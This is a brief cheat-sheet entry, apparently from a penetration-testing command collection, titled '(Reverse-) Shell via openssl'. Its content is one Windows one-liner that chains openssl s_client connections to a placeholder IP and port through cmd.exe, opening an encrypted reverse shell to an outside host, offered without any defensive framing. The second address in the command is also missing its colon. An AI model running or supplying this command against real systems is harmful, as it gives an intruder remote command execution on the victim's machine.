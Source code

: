 # (Reverse-) Shell via openssl

```bash cheat openssl openssl (reverse) shell
openssl.exe s_client -quiet -connect <ip>:<port> | cmd.exe | openssl.exe s_client -quiet -connect <ip><port>
```

tags: openssl shell
